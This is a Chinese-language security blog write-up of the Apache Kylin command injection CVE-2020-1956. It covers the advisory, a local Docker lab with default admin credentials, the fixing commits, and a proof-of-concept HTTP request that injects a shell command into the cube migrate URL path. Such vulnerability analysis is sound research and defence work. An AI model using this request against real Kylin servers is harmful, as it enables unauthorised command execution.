






# （CVE-2020-1956）Apache Kylin 远程命令执行漏洞

## 0x01 漏洞通告

有点忙最近，前两天刚看的一个洞，这玩意应该在互联网甲方内网比较多吧，地址，从通告上来看是一个命令注入。

```
Versions Affected:
Kylin 2.3.0 to 2.3.2
Kylin 2.4.0 to 2.4.1
Kylin 2.5.0 to 2.5.2
Kylin 2.6.0 to 2.6.5
Kylin 3.0.0-alpha, Kylin 3.0.0-alpha2, Kylin 3.0.0-beta, Kylin 3.0.0, Kylin
3.0.1

Description:
Kylin has some restful apis which will concatenate os command with the user
input string, a user is likely to be able to execute any os command without
any protection or validation.

Mitigation:
Users should upgrade to 3.0.2 or 2.6.6 or set
kylin.tool.auto-migrate-cube.enabled to false to disable command execution.

Credit:
This issue was discovered by Johannes Dahse.

References:
https://kylin.apache.org/docs/security.html

-- 

---------------------

Best regards,

Ni Chunen / George
```

## 0x02 环境搭建

通过docker拉取镜像：

```shell
docker pull apachekylin/apache-kylin-standalone:3.0.1
```

启动命令，这里建议内存尽可能大，8G保底，不然可能有些服务器起不来。

```shell
docker run -d \
-m 8G \
-p 7070:7070 \
-p 8088:8088 \
-p 50070:50070 \
-p 8032:8032 \
-p 8042:8042 \
-p 16010:16010 \
apachekylin/apache-kylin-standalone:3.0.1
```

等服务起来之后就可以访问页面：http://127.0.0.1:7070/kylin/，用户名密码：ADMIN/KYLIN

在http://127.0.0.1:7070/kylin/cubes/edit/kylin_sales_cube增加下列三个值

```
kylin.tool.auto-migrate-cube.enabled=true
kylin.tool.auto-migrate-cube.src-config=/home/admin/apache-kylin-3.0.1-bin-hbase1x
kylin.tool.auto-migrate-cube.dest-config=/tmp/kylin.properties
```



## 0x03 漏洞分析

在两条commit记录

[KYLIN-4426 Refine CliCommandExecutor](https://github.com/apache/kylin/commit/9cc3793ab2f2f0053c467a9b3f38cb7791cd436a "KYLIN-4426 Refine CliCommandExecutor")

[KYLIN-4426 CliCommandExecutor](https://github.com/apache/kylin/commit/335d61b62517006d7e7b55638bb6fd305dffbea1?diff=split "KYLIN-4426 CliCommandExecutor")

可以看到动刀子的位置，应该就是漏洞点的命令执行了，**CubeService** 应该就是命令执行的地方了，然后在 **CliCommandExecutor.checkParameterWhiteList** 做了一些处理。





所以根据[CubeController](https://github.com/apache/kylin/blob/master/server-base/src/main/java/org/apache/kylin/rest/controller/CubeController.java "CubeController")，就能找到对应路由了



当然在命令执行的地方触发之前，有几个值判断，因此需要加上这几个东西。



```
kylin.tool.auto-migrate-cube.enabled=true
kylin.tool.auto-migrate-cube.src-config=/home/admin/apache-kylin-3.0.1-bin-hbase1x
kylin.tool.auto-migrate-cube.dest-config=/tmp/kylin.properties
```

## 0x04 漏洞验证

由于触发点在url的位置，url的地方不能够<、>、|等所以命令执行有点受限。

```html
POST /kylin/api/cubes/kylin_sales_cube/aaa&touch%20l1nk31&/migrate HTTP/1.1
Host: 127.0.0.1:7070
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cache-Control: no-cache
Pragma: no-cache
Authorization: Basic QURNSU46S1lMSU4=
Connection: close
Referer: http://127.0.0.1:7070/kylin/admin
Cookie: project=null; JSESSIONID=2B1DC2A8566558EFF0E6BD91E5BD630E; _ga=GA1.1.636880978.1585905453; rdt_uuid=22a7eaa3-24d1-441a-b4fd-2f87dfe0197f; _fbp=fb.3.1585905456831.913087212
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

project=aaa
```


